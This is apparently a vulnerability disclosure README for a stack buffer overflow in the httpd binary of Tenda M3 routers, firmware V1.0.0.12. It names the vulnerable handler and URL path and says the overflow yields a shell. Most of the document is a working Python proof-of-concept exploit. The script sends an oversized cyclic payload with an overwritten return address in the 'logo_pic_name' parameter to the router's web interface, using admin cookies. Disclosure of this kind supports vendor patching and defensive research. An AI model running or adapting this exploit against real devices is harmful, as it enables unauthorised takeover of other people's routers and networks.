 # Tenda M3 Stack Overflow

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formSetAccessCodeInfo` function, which can be accessed via the url  `/goform/setAccessCodeData`.

![1](./1.png)



When we send packets, the router will be shell

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import  requests
from pwn import *

 

if __name__ == '__main__':
    #Fireitup
    #payload='a'*29+'\xfc\x69\x04\x01'
    #payload=payload.ljust(900,'a')
    payload=cyclic(0x1fc)+'\xfc\x69\x04\x00'
    url = 'http://192.168.10.1/goform/setAccessCodeData'  
    # 构造http数据包

    pdata = {

        'aaaa'  :   'bbbb' ,
        'logo_pic_name'  :   payload
        }

    header = {
        'Cookie'        : 'bLanguage=cn; user=admin; workMode=slave',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
        print pdata
        a=requests.get(url,params=pdata,headers=header)
        #print a.text
        print '[+] execute ok'
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)



```





![poc](./poc.jpg)

![poc](./poc2.jpg)

